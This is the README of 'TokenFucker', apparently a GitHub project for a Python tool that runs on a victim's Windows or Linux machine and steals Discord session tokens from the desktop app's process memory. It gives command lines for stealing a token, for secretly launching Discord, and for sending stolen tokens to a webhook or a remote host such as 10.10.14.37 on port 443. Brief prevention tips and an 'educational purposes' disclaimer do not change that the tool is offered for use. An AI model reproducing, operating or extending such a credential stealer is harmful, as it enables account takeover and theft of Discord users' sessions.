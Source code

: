 # TokenFucker
![TokenFucker](https://media.discordapp.net/attachments/843628315146321940/1049398161254391808/TokenFucker5.png?width=960&height=346)
<p align="center">
    <em>Cross plataform tool for Discord Token Stealing</em></p>
    <p align="center">
    <a href="https://github.com/ZaikoARG/PyDump/blob/main/LICENSE">
      <img src="https://img.shields.io/badge/license-Apache%202-blue.svg" />
    </a>
    <a href="https://www.python.org/">
    	<img src="https://img.shields.io/badge/built%20with-Python%203.10-red.svg" />
    </a>
    <a href="">
    	<img src="https://img.shields.io/badge/platform-Win%2064%20%7C%20Linux%2032%20%7C%20Linux%2064-blue.svg" />
    </a>
  </p>



---

**Discord:** ZaikoARG#1187

---

TokenFucker is a cross-platform tool for Windows and Linux written in python, with the functionality to steal Discord user tokens in a few seconds. 
It is a tool that runs on the victim's machine, and it needs the victim to have the desktop application installed to work. It offers the ability to run even when the desktop application is closed.

Next, the most relevant functions of TokenFucker will be detailed:
* **Cross platform support:** TokenFucker works on both Windows and Linux (*tested only on its latest versions*)
* **Discord's Ghost Execution:** TokenFucker requires the Discord desktop app to be running to work.
But if it is not running, our tool can run it from behind, without anyone knowing.
* **Send Tokens via a Discord Webhook:** If you want, you can specify a Discord Webhook URL on the command line, so that the Token will be sent by that Webhook automatically when found.
* **Send Tokens to a Remote Host:** If you want, you can send the obtained Token to a Remote Host, specifying a host and a specific port (TCP) on the command line.

---

## Example of Usage

Steal User Discord Token

`python3 tokenfucker.py -r`

Steal a discord token by specifying the Discord desktop app binary

`python3 tokenfucker.py -df C:\Users\ZaikoARG\Documents\Discord\Discord.exe -r`  

Steal a discord token and send it to a webhook

`python3 tokenfucker.py -wh {URL} -r`

Steal a discord token and send it to a Remote Host

`python3 tokenfucker.py -rh 10.10.14.37,443 -r`

## Documentation
`python3 tokenfucker.py (options) -r`
|Option|Description|
|--|--|
|-df, --discord-file [PATH]|Enter discord binary file manually.|
|-wh, --webhook-url [URL]|Send Result to Webhook.|
|-rh, --remote-host [HOST,PORT]|Send to Remote Host (Introduce Host and Port separated by comma) Example: python tokenfucker.py -rh 127.0.0.1,443|
|--no-root|Disable root checking on Linux Systems (The steal may not work properly).|
|-r|Run the Token Stealing.|

## Functioning
TokenFucker exploits a Discord Desktop Application Memory leak vulnerability to obtain the user's Discord Token.

What TokenFucker does, going into a little more detail, is to look in the memory of the Discord desktop application process, for the authentication headers, which contain the token, sent in the communication between the application and the discord server.


What happens is that the Discord application, every time it has to communicate with its servers for different things, such as sending messages, downloading messages, updating chats and a long etc... makes a web request to these, and to verify which user these requests are being made, a Session Token is used, which is the famous Discord Token that we are looking for so much. This token is sent in a header called Authentication.
When the Discord application creates the request and sends it to the servers, certain data is reflected in the process memory, such as the Authentication header and the user's Token.

## Protection and Prevention
To protect yourself and prevent Discord token theft, I recommend the following:
* Do not save passwords in your browser and do not remember sessions in the browser.
* If possible, do not use the Discord Desktop application, use the Browser instead.
* Log out of your Discord account always, both in the Browser and in the Desktop Application.
* Do not download suspicious or unofficial things from the internet or open any link they send you, without trusting their origins, or verifying them.


## Disclaimer
**This tool was created only for educational purposes, its creators are not responsible for the misuse anyone can give it.**


## License
Copyright © 2022, ZaikoARG. All rights reserved.

Licensed under the Apache 2.0 License.

